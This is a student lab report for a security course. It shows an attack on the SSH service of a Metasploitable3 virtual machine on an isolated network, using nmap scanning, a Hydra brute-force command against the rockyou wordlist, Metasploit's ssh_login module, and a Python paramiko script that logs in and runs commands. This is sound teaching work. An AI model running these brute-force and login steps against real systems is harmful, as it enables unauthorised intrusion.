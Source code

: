 # ICS344 Project – Phase 1 Report

**Title:** SSH Service Exploitation on Metasploitable3  
**Student:** Sultan Alatawi  
**Date:** April 27, 2025

---

## Objective
The goal of Phase 1 is to exploit a vulnerable SSH service running on a Metasploitable3 virtual machine (victim) using a Kali Linux machine (attacker).  
This phase demonstrates successful brute-force attacks using Hydra, manual exploitation via Metasploit Framework, and automation through a custom Python script (Proof of Concept).

---

## Environment Setup
- **Attacker Machine:** Kali Linux  
  - IP Address: `192.168.8.164/24`
  <img src="task1.1_screenshots/AttackerIP.png" width="400" />


- **Victim Machine:** Metasploitable3 Ubuntu 14.04  
  - IP Address: `192.168.8.165/24`
- **Network Setup:** Both machines are configured on the same private subnet (`192.168.8.x`) to allow direct communication.

Both VMs were connected through a host-only/private network ensuring no external internet access during testing.

---

## Task 1.1: Manual Exploitation Using Metasploit

### Step-by-Step Actions

### 1. Network Connectivity Test

Verified communication between attacker and victim:

```bash
ping 192.168.8.165
```

### 2. Scanning the Victim with Nmap

Discovered open ports and running services:

```bash
nmap -sV 192.168.8.165
```

**Key findings:**
- Port 22/tcp (SSH) - OpenSSH 6.6.1p1
- Port 21/tcp (FTP) - ProFTPD 1.3.5
- Port 80/tcp (HTTP) - Apache httpd 2.4.7

---

## 3. Brute-Forcing SSH with Hydra

Attempted to brute-force SSH login credentials:

```bash
hydra -l vagrant -P /usr/share/wordlists/rockyou.txt ssh://192.168.8.165
```

**Result:**
- Username: `vagrant`
- Password: `vagrant`

---

## 4. Launching Metasploit Framework

Started Metasploit:

```bash
sudo msfconsole
```

---

## 5. Exploiting SSH Using Metasploit

Loaded the SSH login module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

Set necessary options:

```bash
set RHOSTS 192.168.8.165
set USERNAME vagrant
set PASSWORD vagrant
set STOP_ON_SUCCESS true
run
```

---

## 6. Opening the SSH Session

After successful login:

```bash
sessions
sessions -i 1
```

---

## 7. Verifying Shell Access

Executed simple commands inside the victim machine:

```bash
whoami
uname -a
```

**Output:**
- Current user: `vagrant`
- Operating System: Ubuntu 14.04 LTS

---

# Task 1.2: Automated Exploitation Using a Custom Python Script

## Step-by-Step Actions

### 1. Installing Python SSH Library

Installed `paramiko` for SSH communication:

```bash
sudo apt update
sudo apt install python3-pip
pip3 install paramiko
```

---

### 2. Developing the Custom Script

Created a script `ssh_exploit.py` to automate the login process:

```python
import paramiko

target_ip = "192.168.8.165"
port = 22
username = "vagrant"
password = "vagrant"

def ssh_connect(ip, port, user, passwd):
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(ip, port=port, username=user, password=passwd)
        print(f"[+] Connected successfully to {ip} via SSH!")
        stdin, stdout, stderr = client.exec_command("whoami")
        print("[+] Command output:")
        print(stdout.read().decode())
        client.close()
    except Exception as e:
        print(f"[-] Connection failed: {e}")

if __name__ == "__main__":
    ssh_connect(target_ip, port, username, password)
```

### 3. Running the Script
Executed the exploit:




```bash
python3 ssh_exploit.py
```
### 4. Verifying Access
Output confirmed successful login as vagrant and execution of commands on the victim machine.
